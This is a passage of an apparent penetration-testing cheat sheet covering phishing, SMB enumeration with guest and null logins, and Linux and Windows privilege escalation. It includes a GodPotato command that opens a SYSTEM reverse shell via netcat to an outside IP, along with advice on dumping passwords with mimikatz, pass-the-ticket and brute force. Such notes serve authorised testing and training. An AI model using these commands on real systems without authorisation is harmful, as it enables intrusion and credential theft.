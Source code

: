 
Use known creds for phishing (see [phishing](exploitation/phishing)) if access to email server or file share (e.g.): Office micros (check Minitrue) or Windows Library files.

- Quick tips: initial enumeration
```bash
# SMB
crackmapexec smb ips.txt
# Guest accounts
crackmapexec smb ips.txt -u 'guest' -p '' --shares
crackmapexec smb ips.txt -u '' -p '' --shares
```

### Priv Esc. (PE)

#### linux (PE)

Enumerate with LinPEAS, write down ideas. Non-standard paths or services? Vulnerable services, sudo, ..?

Passwords can be looked for in bashrc/profile, history, Git commits. Hopefully this is already found by LinPEAS though!

Note: If have sudo on binary see: [GTFOBins](https://gtfobins.github.io/)

Note: If we gain root or other access, enumerate again


#### Windows (PE)

- Local priv esc

NOTE: probably just use GodPotato! (these needs ImpersonatePrivilege)
```powershell
# Test it
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
# Reverse shell as SYSTEM
.\GodPotato-NET4.exe -cmd "nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.186 4444"
```

If Impersonate is enabled and printspooler running, you can use PrintSpoofer
```powershell
whoami /priv
get-service -name  spooler
```

WinPEAS and seatbelt.exe (if no AV is used we can run powerful shells such as meterpreter, or whatever tool we like: mimikatz). \
Pay attention to: priv esc, other users (admins?), accessible networks, password manager or keys. Is domain user? Kerberos? \
Check for sensitive files. Print all environment vars `gci env:`

- If admin \
 Enumerate system files. \
 Check PS logs. \
 Check environment variables, running scrips, earlier run scripts, open connections, network routes. \
 Use mimikatz to extract hashes and PASSWORDS. Try also to get tickets ("pass the ticket"). \
 Get usernames: Import-module PowerView.ps1 and then run `Get-NetUser | select cn,pwdlastset,lastlogon` \
	try known passwords (pw reuse) or bruteforce (note password lockout rules)
